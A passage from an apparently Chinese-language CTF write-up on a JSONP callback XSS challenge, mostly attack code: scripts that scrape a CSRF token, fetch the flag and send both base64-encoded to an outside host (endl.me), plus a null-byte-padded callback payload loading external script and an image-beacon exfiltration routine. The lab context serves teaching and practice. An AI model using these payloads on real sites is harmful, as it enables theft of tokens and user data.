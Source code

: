 ```js
    html = document.body.innerHTML;
    i = html.indexOf("token");
    j = html.indexOf("','erro");
    token = html.slice(i+8,j);
    request(domain+btoa(token));
    flag = httpGet("http://111.198.29.45:47495/getflag.php?csrftoken="+token);
    request(domain+btoa(flag));
}
domain = "http://endl.me/";
setTimeout(myfunc, 2000);
```

获取到 HITB{j50nP_1s_VulN3r4bLe}.

另一种解法，在 fuzz 中发现一个有趣的路由如下：

```php
/action.php?callback=getInfo
```

callback 参数可控，payload如下：

```js
/action.php?callback=%3Chtml%3E%3Cbody%3E%00%00%00%00%00%00%00%3Cscript%20src=%22//cdn.bootcss.com/jquery/3.1.1/jquery.min.js%22%3E%3C/script%3E%00%00%00%00%00%00%00%3Cscript%20src=%22//endl.me/xss/test.js%22%3E%3C/script%3E%3Cdiv%3E
```

- test.js

```js
window.onload = function () {
    var a = document.getElementsByTagName('div')[0],
        data = eval(a.innerHTML);
    $.get("getflag.php", {
        csrftoken: data['csrftoken']
        }, function (data, status) {
        feedback(data);
    });
}

function feedback(data) {
    var data = encodeURIComponent(data),
        img = document.createElement('img');
    img.src = 'https://endl.me/xss/?`' + data;
    console.log(img);
    document.body.appendChild(img);
}
```
![](/assets/images/move/20191005112856.png)
